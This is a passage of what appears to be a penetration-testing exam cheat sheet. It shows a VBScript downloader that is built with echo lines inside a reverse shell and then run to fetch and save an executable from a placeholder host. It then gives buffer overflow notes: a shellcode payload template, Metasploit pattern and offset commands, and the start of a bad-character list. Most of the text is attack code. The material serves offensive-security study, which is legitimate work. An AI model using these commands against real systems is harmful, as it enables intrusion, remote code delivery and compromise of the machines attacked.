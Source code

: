 
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.10.10.10/file.exe file.exe
```

Buffer Overflow
---------------

Offensive Security did a fantastic job in explaining Buffer Overflows,
It is hard at first but the more you do it the better you understand. I
had re-read the buffer overflow section multiple times and ensured I
knew how to do it with my eyes closed in preparation for the exam.
Triple check the bad characters, don’t just look at the structure and
actually step through each character one by one would be the best advice
for the exam.


# Payload
payload = "\x41" * <length> + <ret_address> + "\x90" * 16 + <shellcode> + "\x43" * <remaining_length>

# Pattern create
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

# Pattern offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <address>

# nasm
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp eax

# Bad characters
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
```